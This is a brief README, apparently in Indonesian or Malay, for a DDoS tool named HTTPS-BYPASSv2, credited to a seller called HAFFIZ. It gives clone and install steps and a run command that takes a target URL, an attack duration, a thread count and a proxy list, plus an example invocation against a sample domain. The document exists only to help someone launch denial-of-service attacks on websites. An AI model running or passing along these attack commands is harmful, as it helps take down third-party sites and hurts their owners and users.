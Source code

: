 # HTTPS-BYPASSv2

SCRIPT DDOS BUYY BY : HAFFIZ

SCRIPT MILIK HAFFIZ

TUTOR SETUP DAN RUNNING

git clone https://github.com/dangminhtri123/HTTPS-BYPASSv2

cd HTTPS-BYPASSv2

npm i fake-useragent

node HTTPS-BYPASSv2.js + URL/TARGET + TIME + THREADS + LIST PROXY :V

CONTOH :

node HTTPS-BYPASSv2.js https://dagtriDepTrai.com 60 5 PROXYVIP.txt
